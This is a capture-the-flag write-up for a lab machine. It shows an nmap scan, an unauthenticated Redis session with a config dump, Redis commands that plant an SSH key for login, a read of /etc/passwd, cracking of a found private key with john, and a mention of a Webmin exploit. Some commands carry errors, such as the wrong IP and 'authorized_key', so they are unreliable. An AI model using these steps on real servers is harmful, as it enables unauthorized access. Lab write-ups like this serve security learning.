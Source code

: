 # Scanning
Scanning the host 10.10.10.160 with nmap -v -sV -sS -Pn -p- 10.10.10.160 gave me 10000 webmin working and redis 6379 working.
First I have tried webmin but no luck, because of password_reset function was disabled it was impossible (at least impossible for me)
And then when I started to try redis it didn't require authentication
which prompted easily
redis-cli -h 10.85.0.52
So I have extracted config using :
## Extracted config using config get *
```
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) ""
  5) "masterauth"
  6) ""
  7) "cluster-announce-ip"
  8) ""
  9) "unixsocket"
 10) ""
 11) "logfile"
 12) "/var/log/redis/redis-server.log"
 13) "pidfile"
 14) "/var/run/redis/redis-server.pid"
 15) "slave-announce-ip"
 16) ""
 17) "maxmemory"
 18) "0"
 19) "proto-max-bulk-len"
 20) "536870912"
 21) "client-query-buffer-limit"
 22) "1073741824"
 23) "maxmemory-samples"
 24) "5"
 25) "lfu-log-factor"
 26) "10"
 27) "lfu-decay-time"
 28) "1"
 29) "timeout"
 30) "0"
 31) "active-defrag-threshold-lower"
 32) "10"
 33) "active-defrag-threshold-upper"
 34) "100"
 35) "active-defrag-ignore-bytes"
 36) "104857600"
 37) "active-defrag-cycle-min"
 38) "25"
 39) "active-defrag-cycle-max"
 40) "75"
 41) "auto-aof-rewrite-percentage"
 42) "100"
 43) "auto-aof-rewrite-min-size"
 44) "67108864"
 45) "hash-max-ziplist-entries"
 46) "512"
 47) "hash-max-ziplist-value"
 48) "64"
 49) "list-max-ziplist-size"
 50) "-2"
 51) "list-compress-depth"
 52) "0"
 53) "set-max-intset-entries"
 54) "512"
 55) "zset-max-ziplist-entries"
 56) "128"
 57) "zset-max-ziplist-value"
 58) "64"
 59) "hll-sparse-max-bytes"
 60) "3000"
 61) "lua-time-limit"
 62) "5000"
 63) "slowlog-log-slower-than"
 64) "10000"
 65) "latency-monitor-threshold"
 66) "0"
 67) "slowlog-max-len"
 68) "128"
 69) "port"
 70) "6379"
 71) "cluster-announce-port"
 72) "0"
 73) "cluster-announce-bus-port"
 74) "0"
 75) "tcp-backlog"
 76) "511"
 77) "databases"
 78) "16"
 79) "repl-ping-slave-period"
 80) "10"
 81) "repl-timeout"
 82) "60"
 83) "repl-backlog-size"
 84) "1048576"
 85) "repl-backlog-ttl"
 86) "3600"
 87) "maxclients"
 88) "10000"
 89) "watchdog-period"
 90) "0"
 91) "slave-priority"
 92) "100"
 93) "slave-announce-port"
 94) "0"
 95) "min-slaves-to-write"
 96) "0"
 97) "min-slaves-max-lag"
 98) "10"
 99) "hz"
100) "10"
101) "cluster-node-timeout"
102) "15000"
103) "cluster-migration-barrier"
104) "1"
105) "cluster-slave-validity-factor"
106) "10"
107) "repl-diskless-sync-delay"
108) "5"
109) "tcp-keepalive"
110) "300"
111) "cluster-require-full-coverage"
112) "yes"
113) "cluster-slave-no-failover"
114) "no"
115) "no-appendfsync-on-rewrite"
116) "no"
117) "slave-serve-stale-data"
118) "yes"
119) "slave-read-only"
120) "yes"
121) "stop-writes-on-bgsave-error"
122) "yes"
123) "daemonize"
124) "yes"
125) "rdbcompression"
126) "yes"
127) "rdbchecksum"
128) "yes"
129) "activerehashing"
130) "yes"
131) "activedefrag"
132) "no"
133) "protected-mode"
134) "no"
135) "repl-disable-tcp-nodelay"
136) "no"
137) "repl-diskless-sync"
138) "no"
139) "aof-rewrite-incremental-fsync"
140) "yes"
141) "aof-load-truncated"
142) "yes"
143) "aof-use-rdb-preamble"
144) "no"
145) "lazyfree-lazy-eviction"
146) "no"
147) "lazyfree-lazy-expire"
148) "no"
149) "lazyfree-lazy-server-del"
150) "no"
151) "slave-lazy-flush"
152) "no"
153) "maxmemory-policy"
154) "noeviction"
155) "loglevel"
156) "notice"
157) "supervised"
158) "no"
159) "appendfsync"
160) "everysec"
161) "syslog-facility"
162) "local0"
163) "appendonly"
164) "no"
165) "dir"
166) "/var/lib/redis"
167) "save"
168) "900 1 300 10 60 10000"
169) "client-output-buffer-limit"
170) "normal 0 0 0 slave 268435456 67108864 60 pubsub 33554432 8388608 60"
171) "unixsocketperm"
172) "0"
173) "slaveof"
174) ""
175) "notify-keyspace-events"
176) ""
177) "bind"
178) "0.0.0.0 ::1"
```
from this protected-mode is set to no so anonymous must be able to write files. From this point I have created .ssh directory under HOME directory which is /var/lib/redis. And then generated rsa key on my computer and send it through redis-cli using
1. (echo -e "\n\n";cat crackme.pub; echo -e "\n\n") > crackme.txt
2. cat crackme.txt | REDIS-CLI -H 10.10.10.160 -x SET MKEY
3. config get MKEY
4. config set dir /var/lib/redis/.ssh
5. config set dbfilename authorized_key
6. save
above will do copy crackme.pub to /var/lib/redis/.ssh/authorized_key
after this I can connect with ssh using the generated private key with ssh -i crackme redis@10.10.10.160
# Second stage
Get system users cat /etc/passwd. And there is user named Matt. So as I know there is webmin working and I need an user to authenticate. Matt is the one to authenticate, so I have searched for any file owned on Matt using find -user Matt and found ida_rsa.bak on /opt which was RSA private key file. And then extracted key to local pc and cracked with john.
After we have known the Matts account password login to webmin and use exploit that leverages package installer